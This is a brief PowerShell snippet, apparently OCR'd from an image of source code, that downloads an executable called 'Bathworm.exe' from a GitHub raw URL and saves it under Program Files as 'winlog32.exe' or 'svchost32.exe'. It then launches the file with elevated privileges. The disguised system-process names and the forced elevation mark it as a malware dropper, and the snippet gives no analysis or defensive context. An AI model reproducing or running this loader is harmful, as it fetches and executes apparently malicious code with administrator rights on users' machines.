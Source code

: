 $settings = '{"WD": false, "adminrun": false}'; if ($settings.adminrun) { $outputPath = Join-Path $env:programfiles 'winlog32.exe'; (New-Object System.Net.WebClient).DownloadFile("https://github.com/26w6/asas/raw/refs/heads/main/Bathworm.exe", $outputPath); Start-Process $outputPath -Verb RunAs } else { $outputPath = Join-Path $env:programfiles 'svchost32.exe'; (New-Object System.Net.WebClient).DownloadFile("https://github.com/26w6/asas/raw/refs/heads/main/Bathworm.exe", $outputPath); Start-Process $outputPath -Verb RunAs };

